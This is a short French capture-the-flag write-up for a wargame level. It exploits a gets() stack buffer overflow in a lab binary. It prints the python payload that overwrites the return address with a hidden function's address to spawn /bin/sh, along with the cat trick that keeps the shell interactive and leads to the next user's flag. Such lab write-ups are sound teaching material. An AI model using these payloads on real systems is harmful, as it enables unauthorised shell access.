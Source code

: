 ## Level 1

Avec objdump, on observe deux fonctions: `main()` et `run()`.

`run()` n'est jamais appelé mais, on y voit un appel a `system(/bin/sh)`.

`main()` contient un buffer de 64 characteres, qu'on peut overflow, grace au manque de vérification de l'appel `gets`.

On remplis donc le buffer avec des données random, plus l'espace inutilisé, puis on réecrit l'EIP avec
l'adresse de la fonction run, trouvé avec objdump.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" | ./level1`

`$ Good... Wait what?`

`$ segfault.`

On arrive a faire executer la fonction caché mais, l'appel a `system()` n'a pas
l'air de réagir.
Cause: l'orsque `system(/bin/sh)` est exécuté, l'entré standart n'est pas
disponible, il faut donc faire en sorte de garder la main sur le shell avec
l'entrée standart:

On ultilise le charactere '-' avec le binaire cat.

`$ python -c "print 'A' * 76 + '\x44\x84\x04\x08'" > /tmp/level1`

`$ cat /tmp/level1 - | ./level1`

Et voila, le shell reste a l'écoute de nos commandes. On peut donc naviguer
vers le `/home/` du user level2 et récuperer le flag.
